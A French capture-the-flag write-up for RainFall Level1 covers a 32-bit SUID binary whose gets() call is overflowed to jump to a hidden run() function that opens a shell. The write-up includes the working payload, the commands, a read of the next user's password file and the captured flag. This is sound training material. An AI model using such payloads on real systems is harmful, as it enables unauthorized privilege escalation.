 # RainFall CTF - Level1

## Reconnaissance

### Fichier trouvé
```bash
level1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

**Observations :**
- Exécutable avec SUID bit activé (`s` dans les permissions)
- Appartient à `level2` (propriétaire) et `users` (groupe)
- Peut être exécuté avec les privilèges de `level2`

## Analyse statique

### Extraction et reverse engineering
- Analyse avec **Ghidra**

### Fonction main décompilée

```c
void main(void)
{
  char local_50 [76];
  
  gets(local_50);
  return;
}
```

### Fonction cachée découverte

```c
void run(void)
{
  fwrite("Good... Wait what?\n",1,0x13,stdout);
  system("/bin/sh");
  return;
}
```

## Analyse des vulnérabilités

### Buffer Overflow
- **Variable vulnérable** : `local_50[76]` (tableau de 76 caractères)
- **Fonction dangereuse** : `gets()` - aucune vérification de taille
- **Impact** : Débordement possible du buffer sur la pile

### Fonction non utilisée
- **Fonction** : `run()` 
- **Adresse** : `0x08048444`
- **Comportement** : Ouvre un shell avec les privilèges de `level2`

## Exploitation

### Stratégie d'attaque
1. **Buffer Overflow** : Remplir le buffer `local_50[76]` avec 76 caractères
2. **ROP/Ret2func** : Écraser l'adresse de retour avec l'adresse de `run()`
3. **Little Endian** : Convertir l'adresse `0x08048444` → `\x44\x84\x04\x08`

### Première tentative (échec)
```bash
level1@RainFall:~$ python -c "print('A' * 76 + '\x44\x84\x04\x08')" | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

**Problème** : Le shell se ferme immédiatement car stdin n'est pas maintenu ouvert.

### Exploitation réussie
```bash
level1@RainFall:~$ (python -c "print('A' * 76 + '\x44\x84\x04\x08')"; cat) | ./level1
Good... Wait what?
whoami
level2
```

**Explication** : 
- `cat` maintient stdin ouvert pour permettre l'interaction avec le shell
- Le payload déborde le buffer et écrase l'adresse de retour avec celle de `run()`

### Récupération du flag
```bash
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

## Détails techniques

### Structure du payload
```
[PADDING: 76 x 'A'] + [ADRESSE: \x44\x84\x04\x08]
```

### Analyse de la pile
- **Buffer** : 76 octets
- **Adresse de retour** : 4 octets (architecture 32-bit)
- **Total offset** : 76 octets avant d'écraser EIP

### Encodage little-endian
```
Adresse originale : 0x08048444
Little-endian     : \x44\x84\x04\x08
```

## Résultats

### Flag obtenu
```
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

### Accès niveau suivant
- **Utilisateur** : `level2`
- **Prochain challenge** : `/home/user/level2/`

## Notes techniques

- **Type de vulnérabilité** : Buffer Overflow + Return-to-function
- **Technique d'exploitation** : Stack-based buffer overflow avec redirection vers fonction cachée
- **Architecture** : x86 (32-bit)
- **Fonction dangereuse** : `gets()` - deprecated et non sécurisée
- **Impact** : Escalade de privilèges locale
- **Difficulté** : Intermédiaire

### Leçons apprises
- Toujours utiliser `cat` ou équivalent pour maintenir stdin lors d'exploitations de shells
- Les fonctions non référencées peuvent être des backdoors intentionnelles dans les CTF
- `gets()` est une fonction à bannir absolument en production